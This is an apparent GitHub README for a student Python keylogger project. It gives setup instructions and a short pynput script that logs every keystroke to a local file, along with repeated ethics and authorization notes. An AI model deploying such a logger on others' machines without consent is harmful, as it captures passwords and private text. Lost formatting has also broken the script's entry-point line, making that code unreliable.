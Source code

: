 # Simple Keylogger

## Description

This project is a simple keylogger program that records and logs keystrokes. The primary focus is on logging the keys pressed and saving them to a file. **Note**: Ethical considerations and permissions are crucial for projects involving keyloggers. Please ensure you have proper authorization before using this tool.

## Features

- Records keystrokes.
- Logs the keys pressed.
- Saves the logged keys to a file.
- Ensures ethical use with proper permissions.

## Technologies Used

- **Python**: The core programming language for the project.
- **pynput**: A Python library to control and monitor input devices.

## Setup and Installation

### Prerequisites

- **Python**: Download and install Python from [python.org](https://www.python.org/).

### Steps

1. **Clone the Repository**:

   ```bash
   git clone <repository-url>

2. Navigate to the Project Directory:

bash
cd simple_keylogger
Create a Virtual Environment (optional but recommended):

bash
python -m venv env
3. Activate the Virtual Environment:

On Windows:

bash
.\env\Scripts\activate
On macOS/Linux:

bash
source env/bin/activate
Install Required Packages:

bash
pip install pynput
How to Use
Run the Program:

bash
python keylogger.py
Logging Keystrokes:

The program will start recording keystrokes and log them to a file named key_log.txt.

Stopping the Keylogger:

To stop the keylogger, manually terminate the script by closing the terminal or using a keyboard interrupt (Ctrl + C).

Example
Here’s an example of what the logged keystrokes might look like in the key_log.txt file:

plaintext
Key.space
Key.shift_r
H
e
l
l
o
Key.space
W
o
r
l
d
!
Project Implementation Steps
Step 1: Set Up Your Project in VSCode
Open VSCode: Launch Visual Studio Code.

Open Your Project Folder: Go to File > Open Folder and select the folder you created for your project.

Step 2: Create the Python Script
Create a New Python File: In your project folder, create a new file named keylogger.py.

Step 3: Write the Python Code
Here’s a basic example of how to implement the keylogger using pynput:

python
from pynput.keyboard import Key, Listener

def on_press(key):
    with open("key_log.txt", "a") as log_file:
        log_file.write(f"{key}\n")

def main():
    with Listener(on_press=on_press) as listener:
        listener.join()

if **name** == "**main**":
    main()
Step 4: Run the Program
Open the Integrated Terminal: Go to View > Terminal in VSCode.

Navigate to Your Project Directory: If you’re not already in your project directory, use the cd command to navigate to it.

Run the Python Script: Execute the script by typing the following command in the terminal:

bash
python keylogger.py
Step 5: Ethical Considerations
Authorization: Ensure you have proper authorization and permissions before using the keylogger. It is crucial to respect privacy and legal guidelines.

Step 6: Version Control with Git & GitHub
Initialize Git: If you haven't already initialized a Git repository in your project directory, run:

bash
git init
Add Your Files: Add all your files to the staging area:

bash
git add .
Commit Your Changes: Commit the changes with a meaningful commit message:

bash
git commit -m "Initial commit with Simple Keylogger"
Link to GitHub Repository: Add the remote GitHub repository. Replace [your-repository-url] with the URL of the repository you created on GitHub:

bash
git remote add origin [your-repository-url]

Push to GitHub: Push your local changes to the GitHub repository:

bash
git push -u origin master
Learning Outcomes
Input Monitoring: Understanding how to monitor and log keystrokes using Python.

Python Programming: Enhancing skills in Python, including libraries like pynput.

Version Control: Using Git and GitHub for version control and collaboration.

Documentation: Recognizing the importance of clear and detailed project documentation.

Ethical Considerations: Understanding the ethical implications and legal considerations of using keyloggers.

Contribution
Feel free to fork this repository, submit issues, and send pull requests. Contributions are welcome!

License
This project is licensed under the MIT License - see the LICENSE file for details.

Connect with Me
I'm eager to apply my skills in a professional setting and contribute to innovative cybersecurity solutions. If you have any opportunities or would like to collaborate, feel free to reach out!
Remember that, I am rooting for you too.
